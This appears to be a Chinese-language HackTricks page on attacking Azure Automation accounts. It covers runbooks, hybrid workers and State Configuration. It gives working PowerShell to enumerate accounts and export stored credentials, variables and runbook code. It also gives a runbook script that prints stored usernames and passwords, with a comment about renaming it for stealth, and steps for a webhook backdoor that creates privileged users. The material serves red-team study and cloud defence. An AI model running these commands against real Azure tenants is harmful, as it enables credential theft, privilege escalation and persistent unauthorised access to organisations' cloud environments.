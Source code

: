 # Az - 自动化帐户

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/overview) Azure 自动化提供基于云的自动化、操作系统更新和配置服务，支持在 Azure 和非 Azure 环境中进行一致的管理。它包括过程自动化、配置管理、更新管理、共享功能和异构特性。

这些就像 Azure 中的 "**计划任务**"，可以让您执行操作（动作或甚至脚本）来 **管理**、检查和配置 **Azure 环境**。

### 运行帐户

当使用 **运行帐户** 时，它会创建一个带有自签名证书的 Azure AD **应用程序**，创建一个 **服务主体** 并为该帐户在 **当前订阅** 中分配 **贡献者** 角色（拥有很多权限）。\
Microsoft 建议为自动化帐户使用 **托管身份**。

{% hint style="warning" %}
这将在 2023 年 9 月 30 日 **被移除并更改为托管身份。**
{% endhint %}

## 运行书和作业

**运行书** 允许您 **执行任意 PowerShell** 代码。这可能会被 **攻击者滥用** 来窃取 **附加主体** 的权限（如果有的话）。\
在 **运行书** 的 **代码** 中，您还可能找到 **敏感信息**（例如凭据）。

如果您可以 **读取** **作业**，请这样做，因为它们 **包含** 运行的 **输出**（潜在的 **敏感信息**）。

转到 `自动化帐户` --> `<选择自动化帐户>` --> `运行书/作业/混合工作者组/观察者任务/凭据/变量/证书/连接`

### 混合工作者

运行书可以在 **Azure 内的容器** 或 **混合工作者**（非 Azure 机器）中运行。\
**日志分析代理** 部署在 VM 上以将其注册为混合工作者。\
混合工作者作业在 Windows 上以 **SYSTEM** 身份运行，在 Linux 上以 **nxautomation** 帐户运行。\
每个混合工作者都注册在 **混合工作者组** 中。

因此，如果您可以选择在 **Windows 混合工作者** 中运行 **运行书**，您将以 **System** 身份在外部机器上执行 **任意命令**（很好的转移技术）。

## 破坏状态配置 (SC)

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Azure 自动化 **状态配置** 是一种 Azure 配置管理服务，允许您为任何云或本地数据中心中的节点编写、管理和编译 PowerShell 所需状态配置 (DSC) [配置](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations)。该服务还导入 [DSC 资源](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)，并将配置分配给目标节点，所有这些都在云中。您可以通过在 Azure 门户中选择 **状态配置 (DSC)** 在 Azure 自动化状态配置中访问。

**敏感信息** 可能会在这些配置中找到。

### RCE

可以滥用 SC 在受管机器上运行任意脚本。

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## 枚举

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### 创建一个 Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
{% endcode %}

### 通过运行书从自动化帐户中提取凭据和变量

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
您可以通过修改现有的运行手册，并从网络控制台执行相同的操作。
{% endhint %}

### 设置自动化高权限用户创建的步骤

#### 1. 初始化自动化帐户

* **所需操作：** 创建一个新的自动化帐户。
* **特定设置：** 确保启用“创建 Azure Run As 帐户”。

#### 2. 导入和设置运行手册

* **来源：** 从 [MicroBurst GitHub Repository](https://github.com/NetSPI/MicroBurst) 下载示例运行手册。
* **所需操作：**
* 将运行手册导入到自动化帐户中。
* 发布运行手册以使其可执行。
* 将网络钩子附加到运行手册，启用外部触发。

#### 3. 配置 AzureAD 模块

* **所需操作：** 将 AzureAD 模块添加到自动化帐户中。
* **附加步骤：** 确保所有 Azure 自动化模块已更新到最新版本。

#### 4. 权限分配

* **要分配的角色：**
* 用户管理员
* 订阅所有者
* **目标：** 将这些角色分配给自动化帐户以获得必要的权限。

#### 5. 注意潜在的访问丧失

* **注意：** 请注意，配置此类自动化可能会导致失去对订阅的控制。

#### 6. 触发用户创建

* 通过发送 POST 请求触发网络钩子以创建新用户。
* 使用提供的 PowerShell 脚本，确保将 `$uri` 替换为您的实际网络钩子 URL，并更新 `$AccountInfo` 以包含所需的用户名和密码。
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
